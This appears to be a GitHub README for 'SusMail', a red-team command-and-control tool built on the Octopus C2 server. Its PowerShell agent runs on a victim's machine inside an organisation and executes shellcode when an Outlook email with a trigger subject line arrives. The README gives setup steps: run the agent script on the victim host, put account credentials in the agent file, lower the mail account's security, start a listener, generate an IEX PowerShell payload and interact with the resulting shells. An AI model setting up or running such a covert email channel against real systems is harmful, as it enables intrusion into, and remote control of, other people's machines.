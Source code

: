 C2 over Microsofts' Outlook based on Octopus as backend.

# What is Octopus ? ![](https://img.shields.io/badge/python-3-yellow)
  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

'SusMail' leverages the Outlook Application Interface (COM Interface) to execute shellcode on a system based on a specific trigger subject line. By utilizing the Microsoft.Office.Interop.Outlook namespace, developers can represent the entire Outlook Application. 



# About the PowerShell agent 
* This is gonna ran on the victim's machine(inside the internal organization):
* just run the script: ```./AllInOne.ps1```




# Requirements & Pre-requisites & installation

1. Machine that will hold the backend based on Octupus(python) - You can install all  Octopus' requirements via :

```pip install -r requirements.txt```

You have to change the next details before you start:
* change the  $username = "XXX", $password = "YYY", $Sent_To = "ZZZ" inside the  ```./agents/agent.ps1.oct ```
* erasing all the emails from the inbox
* permit email account communication with low security apps
if there any problem with it:
https://support.google.com/mail/answer/7126229?visit_id=637650667152983230-1024873670&rd=2#cantsignin&zippy=%2C%D7%9C%D7%90-%D7%94%D7%A6%D7%9C%D7%97%D7%AA%D7%99-%D7%9C%D7%94%D7%99%D7%9B%D7%A0%D7%A1-%D7%9C%D7%AA%D7%95%D7%9B%D7%A0%D7%AA-%D7%94%D7%90%D7%99%D7%9E%D7%99%D7%99%D7%9C-%D7%A9%D7%9C%D7%99


`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[askar@hackbook]─[/opt/redteaming/Octopus]
└──╼ $python3 octopus.py



      ___           ___                       ___           ___         ___           ___
     /  /\         /  /\          ___        /  /\         /  /\       /__/\         /  /\
    /  /::\       /  /:/         /  /\      /  /::\       /  /::\      \  \:\       /  /:/_
   /  /:/\:\     /  /:/         /  /:/     /  /:/\:\     /  /:/\:\      \  \:\     /  /:/ /\
  /  /:/  \:\   /  /:/  ___    /  /:/     /  /:/  \:\   /  /:/~/:/  ___  \  \:\   /  /:/ /::\
 /__/:/ \__\:\ /__/:/  /  /\  /  /::\    /__/:/ \__\:\ /__/:/ /:/  /__/\  \__\:\ /__/:/ /:/\:\
 \  \:\ /  /:/ \  \:\ /  /:/ /__/:/\:\   \  \:\ /  /:/ \  \:\/:/   \  \:\ /  /:/ \  \:\/:/~/:/
  \  \:\  /:/   \  \:\  /:/  \__\/  \:\   \  \:\  /:/   \  \::/     \  \:\  /:/   \  \::/ /:/
   \  \:\/:/     \  \:\/:/        \  \:\   \  \:\/:/     \  \:\      \  \:\/:/     \__\/ /:/
    \  \::/       \  \::/          \__\/    \  \::/       \  \:\      \  \::/        /__/:/
     \__\/         \__\/                     \__\/         \__\/       \__\/         \__\/




 Octopus C2 | Control your shells


Octopus >>

```
# Usage

* > listen_http 0.0.0.0 8080 <your_domain> 10 comments1.php <listener_name>
* > generate_powershell <listener_name>


*Now copy the first IEX and run it from a machine that has access to your gmail account


> (after connection established): 
* > interact 1
> And you will able to run os PS commands

# Video

https://user-images.githubusercontent.com/58856199/130457774-0c70f152-684d-49b7-8e03-f93e7b555382.mp4






# Credits
based on Octopus Project, thanks for * [mhaskar](https://github.com/mhaskar/Octopus)




